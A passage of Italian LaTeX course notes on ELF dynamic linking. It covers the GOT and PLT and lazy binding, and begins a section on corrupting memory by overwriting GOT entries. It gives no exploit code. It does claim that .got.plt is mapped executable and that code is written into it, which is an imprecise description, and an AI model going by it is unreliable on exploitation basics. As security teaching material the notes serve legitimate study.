    
\includegraphics[width=.5\linewidth]{res/dynamic_libraries.png}
    \caption{}
\end{figure}

\subsection{GOT (Global Offset Table) e PLT (Procedure Linkage Table)}
Il programma, o una libreria, può essere caricata in un qualunque punto della memoria (anche per essere compatibile com ASLR).
Per fare questo si utilizza una \textbf{GOT (Global Offset Table)} che è caricata nel programma (attraverso il dynamic loader) questa si utilizza per avere gli indirizzi dei simboli.
La controparte inceve per caricare gli indirizzi delle funzioni si utilizza la \textbf{PLT (Procedure Linkage Table)}.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/GOT_PLT.png}
    \caption{}
\end{figure}

Il riferimento \textit{.got.plt} non è caricato a priori ma segue una politica di \textbf{lazy loading}, quando la funzione viene chiamata per la prima volta allora il sistema si preoccuperà di caricare la libreria necessaria, mentre il suo offset è caricate nella sezione.
Le procedure che caricano i valori nella \textit{.got.plt} sono caricate nella sezione \textit{.plt}.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/PLT_loading.png}
    \caption{}
\end{figure}

La prima chiamata della funzione porta al caricamento del codice in memoria, questa procedura avviene chiamando lo \textbf{\textit{stub del .plt}}, la entry del \textit{.got.plt} viene caricata con l'indirizzo dello stub .plt, lo stub effettuerà la sovrascrittura della entry del .got.plt.

\begin{minipage}{0.5\textwidth}
    \centering
    
\includegraphics[width=.5\linewidth]{res/PLT_loading2.png}
\end{minipage}
\begin{minipage}{0.5\textwidth}
    \centering
    
\includegraphics[width=.5\linewidth]{res/PLT_loading3.png}
\end{minipage}

\subsection{Memory courruption: GOT}

Per esser caricato dinamicamente dal loader, la xona di memoria del .got.plt deve essere mappata come eseguibile e scrivibile.
Questo permette di scrivere codice nella sezione di memoria del .got.plt (o .got) e alterare il comportamento dei simboli.

\begin{figure}[h!]
    \centering
